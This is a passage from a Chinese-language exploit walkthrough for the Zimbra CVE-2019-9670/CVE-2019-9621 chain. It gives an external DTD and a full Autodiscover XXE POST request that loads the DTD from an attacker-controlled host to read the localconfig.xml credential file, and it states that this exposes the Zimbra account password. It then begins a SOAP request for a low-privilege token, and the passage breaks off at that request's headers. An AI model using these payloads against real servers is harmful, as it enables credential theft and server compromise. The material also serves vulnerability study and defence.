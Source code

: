### 第二步：读取zimbra用户账号密码

> dtd文件内容如下：

    <!ENTITY % file SYSTEM "file:../conf/localconfig.xml">  
    <!ENTITY % start "<![CDATA["> 
    <!ENTITY % end "]]>">  
    <!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 

> POST请求包如下：

    POST /Autodiscover/Autodiscover.xml HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 436  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <!DOCTYPE Autodiscover [  
            <!ENTITY % dtd SYSTEM "http://www.0-sec.org/dtd">  
            %dtd;  
            %all;  
            ]>  
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">  
        <Request>  
            <EMailAddress>aaaaa</EMailAddress>  
            <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>  
        </Request>  
    </Autodiscover>

![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId27.png)

这里利用了CVE-2019-9670漏洞来读取配置文件，你需要在自己的VPS服务器上放置一个dtd文件，并使该文件能够通过HTTP访问。为了演示，我在GitHub上创建了一个仓库，从GitHub上获取dtd文件。

上图中用红框圈起来的就是zimbra账号的密码

### 第三步：获取低权限token

> POST请求包如下：

    POST /service/soap HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 467  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  
